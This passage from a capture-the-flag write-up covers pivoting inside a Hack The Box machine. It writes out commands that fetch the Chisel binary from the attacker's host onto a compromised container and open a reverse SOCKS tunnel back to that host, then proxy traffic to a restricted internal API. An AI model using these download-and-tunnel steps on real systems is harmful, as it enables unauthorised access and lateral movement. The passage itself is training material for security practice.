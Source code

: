 ## Shell as jack

### Access to dev

#### Create Socks Proxy

I'll give my container commands to upload
[Chisel](https://github.com/jpillora/chisel) in to the container, first
with `wget http://10.10.14.6/chisel_1.8.1_linux_amd64 -O /tmp/c`, and
then with `chmod +x /tmp/c`. An empty return on the second command
indicates success. I'll start up my server
(`./chisel_1.8.1_linux_amd64 server -p 8000 --reverse`, using a
different port since Burp already listens on the default port, 8080),
and the connect back with a background command (since I want it to be
long running) of `/tmp/c client 10.10.14.6:8000 R:socks`. The background
commands don't return anything, but there's a connection at my Chisel
server:



    2023/02/10 21:46:43 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening



#### Configure Traffic

I use FoxyProxy to manage how my traffic proxies out of Firefox in my
hacking VM. Most of the time, I leave it in "Use Enabled Proxies By
Pattern and Order" mode, and I've got patterns to send most HTB and CTF
traffic through Burp (see [this video where I set that
up](https://www.youtube.com/watch?v=iTm33Miymdg)).

I've also got a profile in FoxyProxy I call Local SOCKS 1080:

![](/img/image-20230210170109823.png)

This one will skip Burp, and go directly to a SOCKS on localhost 1080,
which is just what Chisel is providing. I'll add a pattern for this
proxy for `*dev.rainycloud.htb*`. It comes before Burp in my priority
order, so it'll route all the traffic to dev via the tunnel. It works:

![](/img/image-20230210170451666.png)

### Enumerating healthcheck

#### Access Full API

I'll remember that `/api/healthcheck` was limited from non-local hosts.
I'll try it now via the proxy, but same result:



    oxdf@hacky$ proxychains curl -s rainycloud.htb/api/healthcheck
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.11.184:80  ...  OK
    {"result":true,"results":[]}
